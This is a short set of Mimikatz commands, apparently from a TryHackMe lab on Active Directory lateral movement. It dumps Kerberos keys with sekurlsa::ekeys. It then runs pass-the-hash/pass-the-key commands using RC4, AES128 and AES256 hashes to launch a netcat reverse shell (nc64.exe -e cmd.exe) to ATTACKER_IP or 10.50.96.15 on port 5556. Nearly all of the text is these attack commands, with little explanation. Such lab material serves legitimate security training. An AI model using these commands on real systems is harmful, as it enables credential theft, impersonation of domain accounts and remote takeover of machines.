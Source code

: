 ```
```shell-session
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```
```
```
**If we have the RC4 hash:**

```shell-session
mimikatz # sekurlsa::pth /user:t1_toby.beck /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

**If we have the AES128 hash:**

```shell-session
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

**If we have the AES256 hash:**

```shell-session
mimikatz # sekurlsa::pth /user:t1_toby.beck /domain:za.tryhackme.com /aes256:6a0d48f79acaec013d928d84a102b72028d574340b6139e876e179db48fbde4e /run:"c:\tools\nc64.exe -e cmd.exe 10.50.96.15 5556"
```
```
